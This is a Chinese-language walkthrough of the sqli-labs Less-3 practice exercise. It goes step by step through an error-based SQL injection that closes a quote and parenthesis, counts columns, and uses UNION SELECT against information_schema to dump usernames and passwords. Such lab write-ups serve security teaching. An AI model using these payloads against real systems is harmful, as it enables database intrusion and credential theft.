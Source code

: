 # Less-3 Error  based - Single quotes with twist - String

加一个单引号，报错

?id=1'

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836345858-b0e3f5c5-b80d-4595-bcc5-b62ed60223bf.png)

根据报错信息修正语句，正常显示

?id=1') --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836413248-940b10c6-a9cd-4c07-bd41-829454af4fd1.png)

利用order by猜测字段数，从1开始，最后4报错，字段数为3

?id=1') order by 4 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836482997-65149c48-2f33-4c3f-a06a-6f6cd09b24b7.png)

利用union select回显，查看回显位置

?id=-1') union select 1,2,3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836618469-86bdefc7-c716-4c22-837a-283e7b3aaac4.png)

获取当前数据库的表名

?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836741953-9555f5c2-6cd2-4294-b712-71680a0f59cd.png)

可疑的应该是users表，获取指定表的字段名

?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602836938786-34f9e7af-93cb-435b-bc9c-ff4b0dda4e8b.png)

根据已经获取的表名users和字段名获取内容

?id=-1') union select 1,2,group_concat(username,' ',password) from users --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602837415282-0759267b-9d1d-43e5-9c56-4981ca6a6d79.png)